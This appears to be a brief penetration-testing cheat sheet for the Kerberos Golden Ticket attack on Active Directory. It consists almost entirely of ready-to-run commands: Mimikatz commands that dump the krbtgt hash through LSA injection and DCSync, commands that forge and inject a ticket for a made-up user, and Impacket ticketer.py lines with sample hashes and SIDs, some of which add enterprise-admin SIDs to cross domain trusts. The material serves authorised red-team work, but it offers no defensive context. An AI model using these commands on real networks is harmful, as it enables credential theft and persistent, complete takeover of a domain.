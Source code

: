 # Golden Ticket attack
Requires krbtgt password or NTLM hash, to forge a TGT.

once you have hash for krbtgt
Rewrite TGTs

impacket-ticketer

Requirements:
* KRBTGT hash

## Get info - Mimikatz
```
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt
```

## Forge a Golden ticket - Mimikatz
```
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

## Alternatively you can use ticketer from Impacket
`ticketer.py -nthash a577fcf16cfef780a2ceb343ec39a0d9 -domain-sid S-1-5-21-2972629792-1506071460-1188933728 -domain amity.local mbrody-da`
`ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator -extra-sid SID_DOMAIN_B_ENTERPRISE_519`
`ticketer.py -nthash e65b41757ea496c2c60e82c05ba8b373 -domain-sid S-1-5-21-354401377-2576014548-1758765946 -domain DEV Administrator -extra-sid S-1-5-21-2992845451-2057077057-2526624608-519`
